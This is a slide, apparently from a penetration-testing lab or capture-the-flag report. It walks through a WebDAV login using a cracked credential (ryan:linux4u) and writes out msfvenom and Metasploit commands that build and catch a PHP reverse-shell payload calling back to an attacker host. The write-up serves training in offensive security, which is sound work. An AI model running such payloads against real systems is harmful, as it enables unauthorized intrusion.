

# Exploitation once logged in as Ashton and subsequently Ryan in WebDAV
01

02

03

Tools & Processes
Used Ashton’s access to locate the secret_folder (exhibit D) which contained instructions on how to further access portions of the network via a WebDAV login, (exhibit E). The instructions contained a text file with step by step instructions including the user name and a hashed password. A brief visit to crackstation.net converted the hash to a password (exhibit F).

Achievements
After using Ryan’s login credentials, ryan:linux4u, I was able to log into the network via the WebDAV exploit, (exhibit G). From there I used msvenom to craft a reverse shell payload (exhibit H) that was uploaded using meterpreter (exhibit I). Once I opened the shell.php file in the system I was able to search the rest of the system for the hidden flag (exhibit J and exhibit K).

Commands
WebDAV connection:
dav://192.168.1.105/webdav

MSVenom script:
root@kali:~# msvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.8 lport=4444 > shell.php

Meterpreter commands:
msfconsole
Use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
Entered other parameters and executed exploit, flag downloaded.